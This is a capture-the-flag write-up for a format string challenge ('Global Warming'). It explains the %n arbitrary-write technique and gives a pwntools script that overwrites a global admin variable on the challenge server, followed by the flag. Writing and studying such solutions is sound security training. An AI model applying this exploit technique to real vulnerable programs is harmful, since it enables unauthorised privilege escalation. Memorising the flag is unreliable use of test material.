 # Global Warming
This was a *different* type of binary exploitation challenge. First, check the protections:

![checksec](images/checksec-gw.png)

Much like the others. Let's run it:

![test](images/gw-test.png)

So our input is sent back to us, along with the notice that we cannot log in with input. As we control the print, let's check if there's a format string bug.

![format-string](images/gw-fs.png)

And indeed there is. Interestingly, there's no buffer overflow. Let's decompile it to see what's going on:

![main](images/ghidra-gw-main.png)

`main` is very simple - takes in input (using a secure `fgets()`, explaining why there was no BoF) and passes the input to the `login()` function.

![main](images/ghidra-gw-login.png)

Input it printed back to us, as we saw, with `printf`. This causes the format string. The interesting part is it checks the global `admin` variable before printing the flag. <br>

Clearly, we have to overwrite the `admin` variable somehow. To do this, we're going to have to leverage the format string `%n` specifier for an arbitrary write.<br>

`%n` takes a pointer to a signed int, where the **number of characters written so far is stored**. Because we can control certain aspects of the stack (as the buffer is on the stack) we can tell it *where* to write the data. As we can control the input, we can tell it *how much*. This gives us an arbitrary write. If we want to write 20 bytes somewhere, we input 20 characters and then call `%n`. We can even use other fancy format string specifiers to shorten it enough,<br>

I would explain how to leverage this in detail, but frankly, others have done so much, much better than me :)<br>

* [LiveOverflow - Format String with %n](https://www.youtube.com/watch?v=0WvrSfcdq1I)
* [Format String Vulnerability](http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf)

There are plenty more resources online.

## Exploitation
Luckily for us, `pwntools` contains a feature to automate `%n` exploitation.

> Note: You should **understand how the exploit works** before you use tools to do it for you.

The pwntools module is `fmtstr_payload`, and takes in two values: the offset for the format string and a dictionary. The keys in the dictionary are the location to write to, and the values are the data to write there.

```python
from pwn import *

elf = ELF('./vuln')
p = remote("chall.csivit.com", 30023)

admin = elf.symbols['admin']
value = 0xb4dbabe3                              # this is the value admin needs to be

payload = fmtstr_payload(12, {admin : value})

p.sendline(payload)

print(p.clean().decode())
```

**csictf{n0_5tr1ng5_@tt@ch3d}**